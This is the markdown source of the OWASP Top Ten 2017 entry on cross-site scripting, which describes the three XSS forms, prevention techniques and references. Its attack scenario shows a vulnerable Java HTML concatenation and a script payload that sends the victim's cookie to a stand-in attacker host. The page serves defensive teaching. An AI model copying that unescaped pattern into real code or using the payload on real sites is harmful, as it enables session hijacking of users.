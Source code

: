 ```yaml
---

layout: col-document
title: A7-Cross-Site Scripting (XSS)
author:
contributors:
tags: OWASP Top Ten 2017, Top Ten, A7, xss
document: OWASP Top Ten 2017
order: 12
exploitability: 3
prevalence: 3
detectability: 3
technical: 2

---
```


{% include impacts.html %}

* **Threat Agents/Attack Vectors**: Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
* **Security Weakness**: XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
* **Impacts**: The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.

---

### Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent

Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:

* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Example Attack Scenarios

**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

    (String) page += "<input name='creditcard' type='TEXT'
    value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:

    '><script>document.location=
    'http://www.attacker.com/cgi-bin/cookie.cgi?
    foo='+document.cookie</script>'.

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

#### OWASP

* [OWASP Proactive Controls: Encode Data](/www-project-proactive-controls)
* [OWASP Proactive Controls: Validate Data](/www-project-proactive-controls)
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-testing)
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-testing)
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-testing)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](/www-project-java-encoder)

#### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)